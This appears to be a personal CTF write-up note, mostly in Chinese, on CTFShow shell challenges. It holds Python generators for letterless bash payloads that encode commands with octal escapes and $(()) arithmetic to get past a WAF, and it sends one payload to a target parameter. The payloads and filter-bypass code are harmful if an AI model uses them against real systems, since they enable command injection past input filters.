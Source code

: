 tags:: CTF/Shell/利用进制转换构造无字母payload, CTF/Shell/WAF绕过

- # 1&2
	- ```python
	  
	  def zero_str():
	      return "$0"
	  
	  def num(n: int):
	      return str(n)
	  
	  def string(s: str):
	      return "$'" + "".join(
	          ["\\" + num(int(oct(ord(c))[2:]))
	              for c in s]
	      ) + "'"
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(
	          zero = zero_str(),
	          cmd = string(cmd)
	      )
	  
	  p = string("/getflag")
	  print(p)
	  ```
	- 把p交上去就行，注意转义
	- 参考[[CTF/Shell/bash构造无字母payload]]
- # 5
	- 数字：参考 [[CTF/WP/CTFShow/web57]]
	- bash str: 先在前方设置变量`__=$(())`，然后使用`${!__}`
	- 字符串：
		- ```python
		  def string_by_bin(s: str):
		      return "$\\'" + "".join(["\\\\" + number(int(oct(ord(c))[2:])) for c in s]) + "\\'"
		  ```
	- payload生成：
		- ```python
		  # payload = shell_payload.number(1)
		  
		  def number(n):
		      assert isinstance(n, int)
		      if n == 0:
		          return "$(())"
		      elif n == -1:
		          return "$((~$(())))"
		      elif n < 0:
		          return "$(({}))".format(
		              "".join(
		                  "$(({}))".format(number(-1))
		                  for _ in range(-n)
		              )
		          ) 
		      elif n > 0:
		          return "$((~{}))".format(
		              number(-n-1)
		          )
		  
		  def string_by_bin(s: str):
		      return "$\\'" + "".join(["\\\\" + number(int(oct(ord(c))[2:])) for c in s]) + "\\'"
		  
		  
		  def string(s: str):
		      """生成一个payload, 其经过两次解析后得到原有的字符串
		      经过一次解析：
		          "$\\'" -> "$'"
		          "\\\\" -> "\\"
		          数字payload -> 实际的数字
		          整个payload变成`$'\000\000'`的形式
		  
		      Args:
		          s (str): payload的值
		  
		      Returns:
		          str: payload
		      """
		      return string_by_bin(s)
		  
		  
		  def generate_payload(cmd):
		      return "{bash_str}<<<{bash_str}\\<\\<\\<{cmd}".format(bash_str=bash_str(), cmd=string(cmd))
		  
		  bash_str = lambda : "${!__}"
		  
		  payload = "__=$(())&&" + generate_payload("cat /flag")
		  print(payload)
		  r = base_post(url, data = {
		      "ctf_show": payload
		  })
		  print(r.text)
		  ```
